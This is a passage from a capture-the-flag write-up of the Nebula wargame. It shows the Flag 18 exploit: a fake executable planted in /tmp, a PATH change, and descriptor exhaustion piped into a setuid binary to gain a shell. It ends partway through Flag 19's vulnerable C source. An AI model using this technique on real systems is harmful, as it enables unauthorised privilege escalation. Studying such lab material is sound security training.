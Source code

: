 Heavens, it worked - sort of. Notice the */tmp/flag18/debug: line 1: Starting: command not found*? That's because our *rcfile* is set to be our debug file. So 
it writes to the debug file and then the shell will try to execute it. As we know
the first line in the file is *Starting up. Verbose level = 1*, so all we really
need to do to quash that error we need to create an executable with that name.
Inside that we will run out beloved `getflag`

{{< highlight console >}}
level18@nebula:/home/flag18$ echo getflag > /tmp/Starting
level18@nebula:/home/flag18$ chmod +x !$
chmod +x /tmp/Starting
level18@nebula:/home/flag18$ export PATH=${PATH}:/tmp
level18@nebula:/home/flag18$ python -c "print('login me\n'*1021 + 'closelog\n' + 'shell')" | ./flag18 --rcfile -d /tmp/flag18/debug
./flag18: invalid option -- '-'
./flag18: invalid option -- 'r'
./flag18: invalid option -- 'c'
./flag18: invalid option -- 'f'
./flag18: invalid option -- 'i'
./flag18: invalid option -- 'l'
./flag18: invalid option -- 'e'
You have successfully executed getflag on a target account
/tmp/flag18/debug: line 2: syntax error near unexpected token `('
/tmp/flag18/debug: line 2: `logged in successfully (without password file)'
{{< / highlight >}}

The harder ways are beyond what I can do, but for those interested in 
circumventing `FORTIFY_SOURCE` you can read [A Eulogy for Formatting Strings](http://phrack.org/issues/67/9.html). I'll be re-reading that for sure.

## Flag 19 ##

> There is a flaw in the below program in how it operates. 

{{< highlight C >}}
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <sys/stat.h>

int main(int argc, char **argv, char **envp)
{
  pid_t pid;
  char buf[256];
  struct stat statbuf;

  /* Get the parent's /proc entry, so we can verify its user id */

  snprintf(buf, sizeof(buf)-1, "/proc/%d", getppid());

  /* stat() it */
